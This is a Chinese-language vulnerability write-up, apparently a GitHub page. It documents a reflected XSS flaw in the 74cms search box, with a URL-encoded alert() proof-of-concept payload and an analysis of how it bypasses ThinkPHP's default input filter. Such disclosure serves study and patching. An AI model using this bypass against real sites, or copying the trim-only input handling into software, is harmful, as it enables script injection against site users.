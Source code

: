 74cms前台搜索框存在反射型xss漏洞

地址：

```
http://localhost/index.php?m=&c=help&a=index
```

![image-20250325155738957](image/image-20250325155738957.png)

poc：

```
%3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```

![image-20250325155932295](image/image-20250325155932295.png)



代码分析：

定位c=help ==》helpcontroller.class.php

方法为help_list

```
public function help_list(){
        $_GET['key'] = I('request.key','','trim');
        if (!M('Help')->autoCheckToken($_POST)){
            $this->error("验证错误！");
        }
        $this->display();
    }
```

这里仅仅是用到了trim完全不足以过滤，跟进I方法，这是ThinkPHP原生的方法类似于input

```
 if(''==$name) { // 获取全部变量
        $data       =   $input;
        $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
        //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
        if($filters) {
            if(is_string($filters)){
                $filters    =   explode(',',$filters);
            }
```

存在过滤，跟进DEFAULT_FILTER，发现

![image-20250325165856215](image/image-20250325165856215.png)

全局默认是存在过滤方法

输入

```
<script>alert(1)</script>
```

被转义为

![image-20250325221604733](image/image-20250325221604733.png)

```
输入 %3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```

直接则跳过了thinkphp的检测，直接通过$_GET['key']传入了

验证：

```
%3Cscript%3E alert(%2Fss%2F) %3C%2Fscript%3E
```

查看js

![image-20250325224605088](image/image-20250325224605088.png)

空格都没有被过滤

安全的流程--》用户输入--》(I函数过滤)thinkPHP默认检测--》安全

不安全的流程--》编码--》服务器解码--》$_GET直接访问